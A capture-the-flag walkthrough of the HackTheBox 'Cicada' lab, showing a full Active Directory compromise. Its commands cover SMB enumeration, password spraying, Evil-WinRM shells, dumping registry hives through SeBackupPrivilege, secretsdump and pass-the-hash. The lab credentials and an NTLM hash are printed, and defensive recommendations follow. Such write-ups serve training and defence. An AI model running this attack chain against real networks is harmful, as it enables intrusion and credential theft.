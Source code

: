 ![](images/image0.png)

# Cicada HackTheBox Walkthrough

This professional report covers the full compromise of the **Cicada Active Directory environment**, showcasing enumeration, lateral movement, and privilege escalation steps. Each phase demonstrates the attacker’s progression from initial discovery to domain administrator access.

---

## 1. Initial Reconnaissance

We begin with comprehensive network scanning to identify open ports, services, and potential entry points on the target machine `10.129.231.149`.

```bash
nmap -p- -Pn 10.129.231.149 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.149 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.149 -v --script vuln -oN nmap_vuln.txt
```

![](images/image7.png)

The scan identified open **SMB (445)** and **LDAP** ports, confirming the host as a **Windows domain controller**.

---

## 2. SMB Enumeration

We performed initial SMB enumeration to identify accessible network shares:

```bash
smbclient -L 10.129.231.149
```

![](images/image10.png)

Among the discovered shares were **HR**, **DEV**, and **SYSVOL**. Accessing the **HR** share anonymously revealed internal files.

```bash
smbclient -N \\10.129.231.149\HR
```

![](images/image9.png)

A notice within the share exposed **default password policy information**, providing a pattern that could be weaponized for password spraying.

![](images/image14.png)

---

## 3. User Enumeration & Password Spraying

We enumerated user accounts using Impacket’s `lookupsid.py`:

```bash
lookupsid.py anonymous@10.129.231.149
```

![](images/image5.png)

The extracted usernames were saved into a list and used for a password spray attack leveraging `netexec`:

```bash
netexec smb 10.129.231.149 -u user.txt -p password.txt
```

![](images/image4.png)

This successfully uncovered valid credentials for **michael.wrightson**.

---

## 4. Active Directory Enumeration

Authenticated enumeration using **Michael’s** credentials was conducted to gather domain configuration data and additional accounts.

```bash
enum4linux -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -A CICADA-DC.cicada.htb
```

![](images/image2.png)

The scan revealed **David’s credentials**, enabling further lateral movement within the network.

---

## 5. Lateral Movement: Accessing Development Share

Using David’s credentials, we accessed the **DEV** share to search for sensitive files or scripts.

```bash
smbclient -U david.orelious -p 'aRt$Lp#7t*VQ!3' \\10.129.231.149\DEV
```

![](images/image1.png)

A PowerShell script located in this share contained **hardcoded plaintext credentials**, exposing another user account — **emily.oscars**.

![](images/image15.png)

---

## 6. Remote Access via Evil-WinRM

We used **Evil-WinRM** with Emily’s credentials to gain shell access:

```bash
evil-winrm -i 10.129.231.149 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![](images/image3.png)

We successfully accessed Emily’s desktop and obtained the **user flag**.

---

## 7. Privilege Escalation: SeBackupPrivilege Abuse

Privilege inspection revealed **SeBackupPrivilege** was enabled for Emily:

```bash
whoami /all
```

![](images/image11.png)

Using this privilege, we dumped the SAM and SYSTEM registry hives:

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

![](images/image6.png)

These files were then downloaded for local analysis:

```bash
download sam.hive
download system.hive
```

We extracted hashes using **Impacket’s secretsdump**:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![](images/image8.png)

---

## 8. Administrator Access via Pass-the-Hash

Armed with the Administrator’s NTLM hash, we executed a **pass-the-hash** login using Evil-WinRM:

```bash
evil-winrm -i 10.129.231.149 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![](images/image12.png)

Access was granted, and we confirmed full **Administrator privileges**. The **root flag** was retrieved from the Administrator’s desktop.

![](images/image13.png)

---

## 9. Conclusion

This operation demonstrates a **complete domain compromise** starting from anonymous SMB enumeration to domain administrator privilege escalation.

### Summary of Exploitation Chain
1. Anonymous SMB access exposed a default password template.  
2. Password spraying led to initial credentials for a valid domain user.  
3. Hardcoded credentials in scripts facilitated lateral movement.  
4. Abuse of SeBackupPrivilege enabled dumping of registry hives.  
5. Pass-the-hash provided direct administrator access.

### Security Recommendations
- Disable anonymous SMB enumeration and enforce authenticated access.  
- Apply strong password complexity and account lockout policies.  
- Remove unnecessary privileges like SeBackupPrivilege from non-admin accounts.  
- Encrypt credentials and remove plaintext passwords from scripts.  
- Conduct regular Active Directory security audits and credential hygiene reviews.

---
